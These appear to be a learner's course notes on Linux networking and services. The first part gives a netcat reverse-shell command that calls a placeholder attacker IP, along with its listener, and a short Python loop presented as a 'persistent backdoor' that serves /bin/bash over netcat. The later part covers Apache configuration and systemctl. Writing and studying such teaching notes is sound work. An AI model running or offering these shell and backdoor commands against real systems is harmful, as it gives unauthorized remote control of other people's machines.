 Netcat doesn't just allow you to send text back and forth between two hosts, you can __redirect the data that it receives to an application on the computer, e.g. /bin/bash__

Example - Ncat reverse shell:
(On compromised victim machine): `nc <attacker_ip> 54321 -e /bin/bash`
(On attacker machine): nc `nc -lvnp 54321`

After the above, the attacker should now have a shell (terminal access) on a vicitm computer (if the above command doesn't work, it may be because you are using a primitive verison of netcat such as nc, instead of ncat).


### Creating a (crappy) persistent backdoor with Python

```
import os
while True:
    os.system("nc -l -p 54321 -e /bin/bash");'
```

* video says ctrl+Z "quits" the python while loop instead of backgrounding it?

can anyone figure out how to one-line this?
    - this does't work:`python -c 'import os; while True: os.system("nc -l -p 54321 -e /bin/bash");'`





## 24: Web services with Apache 🌍

* Apache
    - A free and open source HTTP server that's been around for ages

* A good place to start looking for files or configs for services: `/etc/`
    - For apache, the web server port and root directory are located in `/etc/apache2/sites-available/000-default.conf`
    - Sometimes the root of the web server will be `/var/www`, other times `/var/www/html`

* In /etc/apache2:
    - apache2.conf is the main configuration file. It imports all other config files.
    - ports.conf is supposed to determine listening ports for incoming connections.
    -

* How to start the server? `systemctl` (in Ubuntu), just like we've used before
    - `sudo systemctl enable --now apache2`

* How to load webpage content without gui?
    - `curl <website_address>`
    - `wget <website_address>`

* Service status with systemctl?
    - if service is `enabled` the service will start on restart. e.g. `sudo systemctl enable <service_name>` will start the service on restart.
    - if service is `disabled` the service will NOT start on restart
    - if service is `start` or `stop` it indicates the current status of the service. e.g. `sudo systemctl start <service_name>` will start the service(command using `stop` will stop the service).
